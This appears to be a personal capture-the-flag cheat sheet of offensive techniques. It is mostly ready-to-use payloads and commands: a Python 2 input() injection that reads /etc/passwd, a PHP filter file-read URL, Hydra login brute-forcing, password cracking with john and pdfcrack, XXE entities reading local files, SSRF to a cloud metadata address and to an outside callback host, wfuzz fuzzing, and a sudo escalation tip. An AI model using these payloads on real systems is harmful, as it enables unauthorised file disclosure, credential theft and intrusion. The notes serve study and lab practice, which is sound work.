 ## Learnings:
input() in python2 is not safe, equivalent to eval() 

exploiting input() command: 

```__import__("os").system('cat /etc/passwd')```


##  PHP:
fetching source files : 

index.php?file=php://filter/convert.base64-encode/resource=config 

## Hydra:
hydra -s 45885 -l admin www.bruteforce.me -P rockyou.txt http-form-post "/:password=^PASS^:F=Invalid"

"/login.php:user=^USER^&pass=^PASS^:S=successful"  from docs.

follow the format ' path : inputs : F=failure condition'   , -s specifies port , even if u send pass only, specify user for it to run smoothly

## ssh2john

crack hashes from rsa private key certificates ( passphrase locked)

## Zip2John
zip2john zipfile.zip > passwordhash

john --format=pkzip passwordhash --wordlist=rockyou.txt ( depends on the format of archive/hash, look at previous output )

## PDFCrack
pdfcrack -f locked.pdf -w rockyou.txt

## Cyberchef is really good on the fly

## XXE:
### Normal request:

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

### Crafted request:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE toto [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck> 
```
### SSRF 
`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]> `
### blind SSRF test with your own server
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://toto.afri.ca"> ]> `
##### inline SSRF 
```<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://toto.afri.ca"> %xxe; ]>```

### xxe in svg
```<?xml version="1.0" standalone="yes"?><!DOCTYPE toto [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg> ```

## Bruteforce/fuzzing

### wfuzz

#### hide 404
`./wfuzz -w wordlist/general/big.txt --hc 404 http://xxxxxxxxzxzx.zxz/FUZZ`
#### parameters
`./wfuzz -w wordlist/general/megabeast.txt --hh 24 http://xxxxx.zxv/api/action.php?FUZZ=1`
#### numericals
`./wfuzz -z range,0-10000 --hh 27 http://xxxxxx.xxx/api/action.php?reset=FUZZ`
### data
`./wfuzz -w wordlist/general/big.txt -d "FUZZ=1" http://xxxxx.xxx/api/action.php`


## Reversing

Dealing with stripped binaries https://reverseengineering.stackexchange.com/questions/1935/how-to-handle-stripped-binaries-with-gdb-no-source-no-symbols-and-gdb-only-sho

## sudo
if you got something juicy in sudo -l , but still cant read get the command to work, try impersonating another user with -u
